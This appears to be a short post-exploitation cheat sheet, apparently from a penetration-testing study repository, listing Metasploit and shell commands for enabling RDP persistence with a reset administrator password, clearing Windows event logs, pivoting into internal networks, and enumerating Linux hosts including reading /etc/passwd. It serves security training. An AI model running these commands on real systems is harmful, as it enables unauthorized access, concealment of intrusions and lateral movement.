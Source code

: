 ## Persistence with RDP
port 3389. RDP is disabled by default on windows but we can use a metasploit module to enable it after we exploit the victim

`search enable_rdp`

`target> net user administrator password123` -> to modify 

`linux> xfreerdp /u:administrator /p:password123 /v:$ip`

## Clearing logs
`meterpreter> clearev`

## Pivoting
`meterpreter> ifconfig`

`meterpreter> run autoroute -s $ip_internal/24` -> after this route you can access that $ip_internal/24 through the victim_ip

`msf6 > search portscan`

`msf6 > set rhosts $ip_internal`

`meterpreter> portfwd add -l 1234 -p 80 -r $ip_internal`

`msf6 > search portscan`



## Post-Exploitation Linux
`shell> cat /etc/passwd`

`shell> cat /etc/*issue`

`shell> env`

`shell> netstat -antp`

`shell> ps aux`

`shell> groups username` -> what groups is this user part of

`shell> uname -a`

`shell> uname -r`

`shell> chkrootkit -V` -> enumerate rootkit version

`msf6> session -u $session_id`

`msf6> search enum_config` -> this will get all configuration files

`msf6> loot` -> to show where our gathered information are saved

`msf6> search enum_network`

`msf6> search env`

`msf6> search enum_protections`
